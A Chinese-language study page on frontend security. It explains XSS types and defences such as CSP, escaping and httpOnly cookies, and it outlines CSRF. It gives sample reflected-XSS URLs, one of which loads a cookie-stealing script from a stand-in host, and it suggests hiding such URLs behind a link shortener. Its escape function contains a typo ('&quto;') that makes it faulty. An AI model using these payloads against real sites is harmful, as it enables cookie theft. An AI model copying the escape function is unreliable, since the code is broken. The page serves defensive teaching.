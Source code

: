 ```yaml
---
order: 4
---
```


# 前端安全

## 一、XSS(跨站点脚本攻击)

- XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS 重叠，所以只能叫 XSS。
- 跨站脚本攻击，是指通过存在安全漏洞的 Web 网站，注册用户的浏览器内运行非法的非本站点 JavaScript 脚本进行的一种攻击。

跨站脚本攻击有可能造成以下影响：

- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。
- 获取页面数据
- 劫持前端逻辑
- 发送请求
- 偷取网站的任意数据
- 偷取用户的资料，偷取用户的秘密和登录态
- 欺骗用户

### 1.1 XSS 分类

- `反射型`：url 参数直接注入

所谓反射型，就是攻击脚本必须放在另外的地方，才能完成攻击:

```text
// 普通
http://localhost:3000/?from=china
// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>
// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>
```

为了在 url 不被一眼看出来攻击脚本，可以使用短域名伪造

短域名伪造（https://dwz.cn/）之后，得到的url和原本的攻击url是同等效力的。

- `存储型`：存储到 DB 后读取时注入

在页面上通过表单输入的攻击脚本，存储注入在数据库中，等到页面刷新获取到该数据时，攻击脚本就被执行

### 1.2 防御手段（4 种）

1. `head 设置 X-XSS-Protection（已过时，chrome 已经将该功能去掉了`

2. `CSP 内容安全策略 (CSP, Content Security Policy)`

CSP 是一个附加的安全层，用于帮助检测和缓解某些类型的攻击，包括跨站脚本 (XSS) 和数据注入等攻击。

CSP 本质上就是建立白名单，开发者**明确告诉浏览器哪些外部资源可以加载和执行**。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。

服务端配置：

```sh
# 只允许加载本站资源
Content-Security-Policy: default-src 'self'
# 只允许加载 HTTPS 协议图片
Content-Security-Policy: img-src https://*
# 不允许加载任何来源框架
Content-Security-Policy: child-src 'none'

ctx.set('Content-Security-Policy', "default-src 'self'")
```

3. `转义字符`

- 黑名单转义（定义哪些符号不行）
  - 用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠等，进行转义
  - 但对于富文本来说，显然不能通过上面黑名单的办法来转义所有字符，因为这样会把需要的格式也过滤掉。当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在太多，因此对于富文本，通常采用白名单转义过滤的办法。

```ts
function escape(str) {
  str = str.replace(/&/g, '&amp;');
  str = str.replace(/</g, '&lt;');
  str = str.replace(/>/g, '&gt;');
  str = str.replace(/"/g, '&quto;');
  str = str.replace(/'/g, '&#39;');
  str = str.replace(/`/g, '&#96;');
  str = str.replace(/\//g, '&#x2F;');
  return str;
}

escape(ctx.query.from);
```

- 白名单转义（定义哪些符号可以）

白名单内的不会被过滤掉，只有白名单之外的会被过滤掉白名单过滤的实现是比较复杂的，所以通常使用第三方库 xss 来做：

```ts
const xss = require('xss');
let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>');
// 转义为 => <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt;
console.log(html);
```

4. `Cookie设置httpOnly`

> 这是预防 XSS 攻击窃取用户 cookie，最有效的防御手段。

Web 应用程序在设置 [cookie](/big-frontend/前端/browser#72-cookie) 时，将其属性设为 HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。

（使用 cookie 登录鉴权过程中，实际根本不需要客户端 js 参与，因此后端添加 httpOnly 只在网络传输中使用，是完全合理的）

```js
response.addHeader('Set-Cookie', 'uid=112; Path=/; HttpOnly');
```

### 1.3 a 标签 rel=”noopener noreferrer”属性的作用详解

没有 rel=“noopener noreferrer”的情况下使用 target=“\_blank”是有安全风险，超链接 a 标签的 rel="noopener noreferrer"属性是一种新特性，它能让网站更安全，可以防止钓鱼网站，因为它获取的 window.opener 的值为 null。

#### window.opener

window.opener 实际上就是通过 window.open 打开的窗体的父窗体。通过 window.opener 可以获取到源页面的部分控制权，即使新打开的页面是跨域也可以获取部分控制权。

比如在父窗体 parentForm 里面 通过 window.open("subForm.html"),那么在 subform.html 中 window.opener

就代表 parentForm,可以通过这种方式设置父窗体的值或者调用 js 方法。

如：1,window.opener.test(); ---调用父窗体中的 test()方法

2,如果 window.opener 存在,设置 parentForm 中 stockBox 的值。

```js
if (window.opener && !window.opener.closed) {
  window.opener.document.parentForm.stockBox.value = symbol;
}
```

## 二、CSRF(跨站请求伪造)

CSRF(Cross Site Request Forgery)，即跨站请求伪造，是一种常见的 Web 攻击，它利用用户已登录的身份，在用户毫不知情的情况下，以用户的名义完成非法操作。流程如下：

- 受害者登录 a.com，并保留了登录凭证（Cookie）。
- 攻击者引诱受害者访问了 b.com。
- `b.com 向 a.com`发送了一个请求：a.com/act=xx。浏览器会默认携带 a.com 的 Cookie。
- a.com 接收到请求后，对请求进行验证，并确认是受害者的凭证，误以为是受害者自己发送的请求。
- a.com 以受害者的名义执行了 act=xx。
- 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让 a.com 执行了自己定义的操作。

## 三、clickjacking(点击劫持)

## 四、SQL 注入

## 五、OS 命令注入

## 六、请求劫持（运营商劫持）

## 七、DDOS（分布式停止服务攻击）
